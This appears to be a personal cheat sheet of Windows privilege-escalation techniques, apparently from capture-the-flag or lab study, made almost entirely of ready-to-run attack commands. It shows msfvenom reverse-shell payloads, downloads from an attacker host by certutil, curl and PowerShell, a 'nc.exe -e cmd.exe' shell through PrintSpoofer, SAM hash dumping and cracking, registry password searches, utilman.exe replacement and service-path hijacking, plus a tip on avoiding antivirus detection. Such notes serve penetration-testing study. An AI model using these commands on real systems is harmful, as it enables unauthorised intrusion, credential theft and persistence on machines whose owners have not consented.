









# Windows Privesc

# **Scheduled Tasks**

- Similar to Cron jobs in Linux.
- Schedule task vs Service
    1. Scheduled tasks are tasks that run only once. They complete their task regardless of whether it has been done or not.
    2. On the other hand, services start and continue running until the task is completed.

### Technique - 1:

- The below command check Schedule tasks other that microsoft
    
    `schtasks /fo LIST | findstr /I /V microsoft | findstr /I taskname`
    
    `schtasks /tn <task_name> /fo LIST /v` —> search any task by name.
    
- If you found the password of the admin, run the command below to get an admin shell:
    
    **`runas /user:admin cmd.exe`**
    

### Technique - 2:

- This is the general way if you don’t find any task in the **`schtasks`** output.
- Go to **`\Devtools`, where** you found the PowerShell scripts:
    1. Check file permissions using the Windows preinstalled utility: 
        
        **`icacls <file_name>` —> The output of this command is divided into two parts: the first tells about the current user permission of the file, and second part tells about the permission in the current folder where the .ps1 file is present.**
        
    2. Another easy way to echo a file is if it worked, you have the permission to write into the file.
        
        **`echo echo ^> c:\Users\user1\test.txt > <file_name>.ps1`**
        
        
        
- After you know you can write into the file, now generate the reverse shell and start the listener. (Prefer base64 PowerShell reverse shell)

# **Startup Folder**

Check the system startup folder. If you have write permission to the folder, you are good to go.

Go to **`cd "c:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startups"`**

1. Create a reverse shell.exe using **`msfvenom`**:
    
    **`msfvenom -p windows/x64/shell_reverse_tcp LHOST:tun0 LPORT:4444 -f exe -o shell.exe`**
    
2. Now **`python -m http.server 80`**

## Share the file with the target via `certutil`

1. To download the shell.exe on the target:
    
    **`certutil -urlcache -split -f http://<ATTACKER_IP>/shell.exe shell.exe` —> Similar to `Wget` in Linux.**
    

# Kernel Exploits

1. Run the **`systeminfo`** command to check the information and version details about the system.
2. Tools for Automation:
    1. Windows Exploit Suggester - Next Generation. (add **`--depth 1` after git clone <link-to-repo> for faster download**)
3. Download Exploits from GitHub or Google.

# **Registry**

## 1. Registry - **`AlwaysInstallElevated`**

- If it is on, then it installs any file with system privileges.
    1. To check **`AlwaysInstallElevated`** 
        
        `reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`
        
        `reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`
        
        
        
    2. Remember that the value of **`AlwaysInstallElevated`** needs to be `true (0x1)` on both Local Machine and Current User. Also On LM, **`DisableMSI`** needs to be `False (0x0)`.
        
        First, check for LM and then CU.
        
    3. If both are True, now create a reverse shell payload.
        
        **`msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=4444 -f msi -o reverse.msi`**
        
    
    ## 4. Transfer the payload to the target machine using curl.
    
    1. Run Python server on the Attacker machine: **`python3 -m http.server 8080`**
    2. Go to the target: **`curl http://<Attcker-IP>:8080/reverse.msi -o reverse.msi`**
    
    1. Before running the **`reverse.msi,`** start listening: **`nc -lvnp 4444`**
    2. Run the payload: **`msiexec /quiet /i reverse.msi`**

## 2. Registry - **`AutoRuns`**

- Query the registry for **`AutoRun`** executables:
    
    `reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`
    
    
    

### Technique 1: Delete and replace the existing file with yours.

1. Go to the location where the target file is present by **`cd <path-to-the-file>`**
2. Can you create another file there by **`echo > test.txt`**
3. If not, then don’t delete the target file.
4. Now, check if you can overwrite the content of the target file by **`echo > program.exe`**
5. If you can overwrite now, overwrite your reverse shell in the target file.
6. Whenever the Admin log in to the system, you will receive the connection.

### Technique 2: Another Registry - `RunOnce`

- This registry also works the same, but only runs one time and then automatically deletes the reverse shell.
    
    
    

# Vulnerable Software:

- To see the internal services running on the system: **`netstat -ano` (-a: all, -n: don’t do name resolution, -o: show process ids)**
- 3306 - MySQL port
- `tasklist | findstr <Process-ID>`  —> Use to find out the current running process info.

## PowerShell Commands:

- **`Get-NetTCPConnection`** —>In PowerShell similar tool like `netstat`
- **`(Get-NetTCPConnection -LocalPort <port-number>).OwningProcess`** --> Used to find out the process id of a specific process running on a given port.
- **`Get-Process -Id <process-ID>`**--> similar to `tasklist`, used to get information about processes.

## To search for any file name in Windows, like the find command:

**`dir /S /B *<file-name>*`**

# Reverse Tunnelling (Port Forwarding):

- Tool: Chisel
- For Window target, download windows version of Chisel.

## Share File via SMB if `curl` and `certutil` are blocked

- Start the SMB server on the Attacker side: **`impacket-smbserver share . -smb2support`**
- **`Share`** is the folder where all files are shared.
- On the victim Windows system: **`//<Attacker-IP>/share/chisel.exe <provide-arguments-directly-no-need-to-download>`**

`***refer chisel notes in Linux PrivEsc***`

---

# **Credential Discovery:**

## Windows Registry:

1. **`reg query HKLM /f password /t REG_SZ /s`  --> This cmd result all registry entries where the word password appears. It is time-consuming, but you can find passwords.**
2. **`reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"` —> Also check this registry for passwords.**
3. Check for **PuTTY** Sessions:
    1. To check available sessions —> **`reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions`**
    2. If the session is present, then query to find out passwords —> **`reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\<session-name>`**
    
    
    

## Stored Credentials On Windows:

1. List any saved credentials: `cmdkey /list`
2. This cmd will run the provided file with that user privilege: **`runas /savecred /user:admin C:\PrivEsc\reverse.exe`**

## SAM (Security Account Manager)

 

- It stores the password hashes
1. Check you have access: **`copy C:\Windows\System32\Config\SAM`**
2. Generally, you don’t have direct access to this file, but check for 1% of cases.
3. But if you found the file in another location with read access
    1. Now we need the key to decrypt the **SAM** file password hash, which is stored in the **SYSTEM** file.
    2. Transfer both file on Attacker system.
    3. Decrypt the file: **`impacket-secretsdump  LOCAL -system SYSTEM -sam SAM`**
    4. Now you will get Users and their hashes
    5. Now you can crack the hash using **Hashcat or John**. Otherwise, you can use **pass the hash attack** to directly log in with a hash.

## Check PowerShell History like `bash_rc` in Linux:

```python
type C:\Users\<User-name>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

## Check the XML Conf file for the default credentials:

```python
type C:\Windows\Panther\Unattend.xml
```

## Check .NET conf file:

```python
type C:\Windows\Microsoft.NET\Framework64\**<specify-version>**\Config\web.config
```

## Transfer file via FTP:

On attacker system:

`python3 -m pyftpdlib --write --port 21`

Now In targert System:

1. `ftp <Attacker-IP>`
2. Log in with `anonymous`
3. `binary`
4. `put <file-name>`

---

# **Misconfigured Services:**

## 1. Enumerating Vulnerable Services:-

- To see services:
    
    In cmd: **`sc query`**
    
    In PowerShell: **`Get-CimInstance Win32_Service`**
    
- Filter the output to only give external services in PowerShell
    
    ```python
    Get-CimInstance Win32_Service | Where-Object PathName -notmatch 'Windows' | Select Name, PathName
    ```
    

## 2. Insecure Service Permission:-

- In this technique, change the `PathName` of the service to our reverse shell.
    1. Create a reverse shell using **`msfvenom`**:
        
        ```python
        msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=4444 -f exe -o shell.exe
        ```
        
    2. Transfer file (use PowerShell):
        
        Run Python server: **`python -m http.server 8080`**
        
        Use this in PowerShell: **`wget http://<attacker-IP>/shell.exe -OutFile shell.exe`**
        
    3. Now, in `Cmd` run this command to see service information: **`sc qc <service-name>`**
        
        
        
    4. Now change the `binary_path_name` value: **`sc config <service-name> binpath="/path/to/shell.exe"`**
    5. Start the service before this start `nc` on the attacker system, **`sc start <service-name>`**
    
    **Local System = NT Authority System**
    

## 3. Insecure Service Executable:-

- In this technique, overwrite the file that the service is executing from.
    1. **`sc qc <service-name>`**
    2. **`copy /path/to/shell.exe "C:\path\to\service\executable" /Y`**
    3. **`sc start <service-name>`**  (Before this start `nc`)

## 4. Unquoted Service Path:-

- The **`BINARY_PATH_NAME`** is unquoted and contains spaces.
    
    
    

## 5. Insecure Service Registry:-

1. **`reg query HKLM\System\CurrentControlSet\services\<service-name>`**
2. **`reg add HKLM\System\CurrentControlSet\services\<service-name> /v ImagePath /t REG_EXPAND_SZ /d C:\path\to\shell.exe /f`**
    
    
    

---

# **User Privileges:**

- This is similar to capabilities in Linux.
- Check user privileges: **`whoami /priv`**
    
    ## 1. **SeBackup / SeRestore:-**
    
    - The `SeBackup` and `SeRestore` privileges allow users to read and write to any file in the system, ignoring any DACL in place. The idea behind this privilege is to allow certain users to perform backups from a system without requiring full administrative privileges.
    
    
    
    - Now, Use can create a copy of the SAM and SYSTEM files and crack the hashes.
        
        ```python
        reg save HKLM\SAM C:\Users\<user-name>\SAM
        reg save HKLM\SYSTEM C:\Users\<user-name>\SYSTEM
        ```
        
    
    ## 2. SeRestore:
    
    - For this change the any registry service **`ImagePath`** overwrite it. (refer **Insecure Service Registry**)
    
    ## 3. **SeTakeOwnership:**
    
    - We'll abuse `utilman.exe` to escalate privileges this time. `Utilman` is a built-in Windows application used to provide Ease of Access options during the lock screen
    - Since `Utilman` is run with SYSTEM privileges, we will effectively gain SYSTEM privileges if we replace the original binary for any payload we like. As we can take ownership of any file, replacing it is trivial.
        1. Take Ownership of `Utilman`: **`takeown /f C:\Windows\System32\Utilman.exe`**
        2. Give your user full permissions over utilman.exe: **`icacls C:\Windows\System32\Utilman.exe /grant <your-username>:F`**
        3. **`copy C:\Windows\System32\cmd.exe C:\Windows\System32\Utilman.exe /Y`**
        4. Now you can go on lock screen and click and you will get `cmd` with NT Authority privilege.
    
    ## 4. **SeImpersonate / SeAssignPrimaryToken**
    
    - These privileges allow a process to impersonate other users and act on their behalf. Impersonation usually consists of being able to spawn a process or thread under the security context of another user.
    - **This technique only works if you have vulnerability like `PrintSpoofer`**
        1. Now, Download **`PrintSpoofer's exe`** file from GitHub (**Link:** https://github.com/itm4n/PrintSpoofer)
        2. Transfer via Curl into Target System.
        3. Run: **`printspoofer.exe -c "nc.exe -e cmd.exe <Attacker-IP> 4545"`**
    
    ---
    

## Technique to Transfer Files:-

1. From Linux to Windows (PowerShell):
    1. Run python server on Attacker Linux: **`python3 -m http.server 8080`**
    2. In target PowerShell: **`Invoke-WebRequest uri http://<Attacker-IP>/shell.exe -OutFile shell.exe`**
2. Via NetCat:
    1. On sender side: **`nc <Receiver-IP> 4444 < file.exe`**
    2. On receiver side: **`nc -lvnp 4444 > file.exe`**

---

# **Automated Enumeration:**

### Tools/Scripts:-

1. **`WinPEAS`:** It is a script developed to enumerate the target system to uncover privilege escalation paths.
    
    **Link:** https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS
    
2. **`PrivescCheck`:** PrivescCheck is a PowerShell script that searches common privilege escalation on the target system. It provides an alternative to WinPEAS without requiring the execution of a binary file.
    
    **Link:** https://github.com/itm4n/PrivescCheck
    
3. **Windows Exploit Suggester - Next Generation:** Some exploit suggesting scripts (e.g. winPEAS) will require you to upload them to the target system and run them there. This may cause antivirus software to detect and delete them. To avoid making unnecessary noise that can attract attention, you may prefer to use WES-NG, which will run on your attacking machine (e.g. Kali or TryHackMe AttackBox).
    
    **Link:** https://github.com/bitsadmin/wesng
    
4. **Metasploit:** If you already have a Meterpreter shell on the target system, you can use the `multi/recon/local_exploit_suggester` module to list vulnerabilities that may affect the target system and allow you to elevate your privileges on the target system.

---